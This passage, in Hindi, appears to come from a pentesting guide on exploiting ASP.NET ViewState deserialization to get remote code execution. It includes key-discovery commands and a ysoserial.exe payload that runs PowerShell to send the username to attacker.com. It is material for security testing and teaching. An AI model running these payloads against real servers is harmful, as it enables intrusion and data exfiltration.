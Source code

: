 या, यह सीधे लक्षित URL से कनेक्ट कर सकता है और HTML से viewstate को निकालने का प्रयास कर सकता है:
```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --url http://vulnerablesite/vulnerablepage.aspx
```
![https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png](https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png)

व्यूस्टेट परमीटर के वंशांकन के साथ विकल्पों की खोज करने के लिए, `badsecrets` [**BBOT**](exploiting-\_\_viewstate-parameter.md) मॉड्यूल का उपयोग किया जा सकता है:
```
bbot -f subdomain-enum -m badsecrets -t evil.corp
```
![https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png](https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png)

अगर आप भाग्यशाली हैं और कुंजी मिल जाती है, तो आप [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)**:** का उपयोग करके हमला कर सकते हैं।
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

--generator = {__VIWESTATEGENERATOR parameter value}
```
जब सर्वर द्वारा `_VIEWSTATEGENERATOR` पैरामीटर नहीं भेजा जाता है तो आपको `--generator` पैरामीटर प्रदान करने की आवश्यकता नहीं है, लेकिन निम्नलिखित चाहिए:
```bash
--apppath="/" --path="/hello.aspx"
```
### परीक्षण मामला: 3 – .Net < 4.5 और EnableViewStateMac=true/false और ViewStateEncryptionMode=true

इसमें यह नहीं पता चलता कि पैरामीटर MAC के साथ सुरक्षित है या नहीं। फिर, मान्यता संरक्षित हो सकती है और आपको इस सुरक्षा दोष का शोषण करने के लिए अपने पेलोड को एन्क्रिप्ट करने के लिए **मशीन कुंजी की आवश्यकता होगी**।

**इस मामले में** [**Blacklist3r**](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper) **मॉड्यूल विकास के अधीन है...**

**.NET 4.5 से पहले**, ASP.NET **उपयोगकर्ताओं से** एक **अनएन्क्रिप्टेड** \_`__VIEWSTATE`\_पैरामीटर को **स्वीकार** कर सकता है, **भले ही** **`ViewStateEncryptionMode`** को _**हमेशा**_ सेट किया गया हो। ASP.NET **केवल** अनुरोध में **`__VIEWSTATEENCRYPTED`** पैरामीटर की **उपस्थिति** की जांच करता है। **यदि कोई इस पैरामीटर को हटा देता है, और अनएन्क्रिप्टेड पेलोड भेजता है, तो फिर भी इसे प्रोसेस किया जाएगा।**

इसलिए अगर हमलावार एक तरीका ढूंढ़ लेते हैं मशीन कुंजी प्राप्त करने के लिए दूसरे दोष जैसे फ़ाइल ट्रावर्सल के माध्यम से, [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net) मामला में उपयोग किया गया कमांड, ViewState डेसीरियलाइज़ेशन दोष का उपयोग करके RCE को करने के लिए उपयोग किया जा सकता है।

* ViewState डेसीरियलाइज़ेशन दोष का शोषण करने के लिए अनुरोध से `__VIEWSTATEENCRYPTED` पैरामीटर को हटाएं, अन्यथा एक Viewstate MAC मान्यता त्रुटि लौटाएगा और दोष का शोषण विफल हो जाएगा।
